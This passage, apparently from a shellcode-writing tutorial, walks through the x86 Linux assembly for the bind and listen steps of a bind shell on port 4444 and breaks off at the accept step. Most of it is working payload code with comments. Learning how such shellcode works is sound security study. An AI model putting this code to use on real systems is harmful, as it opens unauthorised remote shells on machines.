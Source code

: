 Let's build this in assembly now:
```asm
mov al, 0x66
inc ebx      ; previously set to 0x1 -> increase it to 2

; push struct to stack
push edx       ; INADDR_ANY = 0x0
push 0x5C11    ; port: htons(4444) - 0x5C11
push bx        ; AF_INET = 2

;store reference to struct
mov ecx, esp

; push bind args
push 0x10      ; sizeof(sock_addr) = 0x10
push ecx       ; struct sock_addr
push edi       ; sockfd

mov ecx, esp
int 0x80
```
### 3 Set the socket to listen
The next step is to call listen(sockfd, 0);

This will translate to:

EAX - 0x66 - socketcall

EBX - 0x4 - SYS_LISTEN

ECX - pointing to stack:

STACK: edi, 0x0

Note that on success, bind returns 0x0 into eax which we can now use for our args on the stack as well as sockfd.
```asm
; stack setup
push eax
push edi

; *args
mov ecx, esp

; set up syscall and listen
mov al, 0x66
inc ebx
inc ebx
int 0x80
```
### 4 Accept a connection
Next step is to call accept(sockfd, NULL, NULL);

This translates to:
